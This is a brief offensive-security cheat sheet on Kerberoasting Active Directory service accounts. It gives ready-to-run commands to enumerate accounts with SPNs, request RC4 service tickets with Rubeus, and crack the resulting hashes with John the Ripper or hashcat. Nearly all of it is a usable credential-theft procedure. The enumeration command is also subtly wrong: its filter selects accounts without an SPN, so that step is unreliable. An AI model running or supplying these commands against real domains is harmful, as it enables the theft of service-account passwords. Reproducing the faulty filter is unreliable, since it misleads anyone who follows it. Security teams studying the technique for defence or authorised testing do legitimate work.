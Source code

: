 # Kerberoasting

##

When a user account has a Service Principal Name, it is possible to request a Service Ticket for the service mentionned in the SPN.

The Service Ticket is encrypted with the password of the user account: it is possible to crack the ST to retrieve the user account's password.



## List users that have SPN

```powershell
> Get-ADUser -Filter {ServicePrincipalName -eq "$null"} -Properties ServicePrincipalName
```

## Request ST

This command requests a Service Ticket for user `username`. The `/rc4opsec` flag only requests tickets for user accounts that support RC4.&#x20;

```powershell
> Rubeus.exe kerberoast /user:<username> /simple /nowrap /rc4opsec /outfile:hashes.txt
```

## Crack with JtR or hashcat

```powershell
> john.exe --wordlist=<path_to_wordlist> hashes.txt
> hashcat -m 13100 hashes.txt <path_to_wordlist>
```
